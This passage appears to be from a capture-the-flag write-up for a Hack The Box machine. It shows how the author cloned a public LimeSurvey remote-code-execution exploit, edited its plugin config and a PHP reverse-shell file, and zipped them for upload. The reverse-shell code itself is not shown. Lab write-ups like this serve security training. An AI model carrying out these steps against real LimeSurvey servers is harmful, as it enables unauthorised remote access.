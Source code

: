We can see that the version of LimeSurvey is `LimeSurvey CE 6.3.7+231127`.
This has some vulnerabilities so we can exploit it

# Foothold
```
❯ git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git
Cloning into 'Limesurvey-RCE'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 24 (delta 2), reused 0 (delta 0), pack-reused 18 (from 1)
Receiving objects: 100% (24/24), 10.00 KiB | 5.00 MiB/s, done.
Resolving deltas: 100% (5/5), done.
```

We need to edit the `config.xml` file to add compatibility to version 6.0
![](/img/htb_img/Forgotten_img/img7.png)

Then we need to modify the `php-rev.php`, to add our host and port for the reverse shell.
After that, we can zip it and upload it.

```
❯ zip Y1LD1R1M.zip config.xml php-rev.php
updating: config.xml (deflated 57%)
updating: php-rev.php (deflated 61%)
```
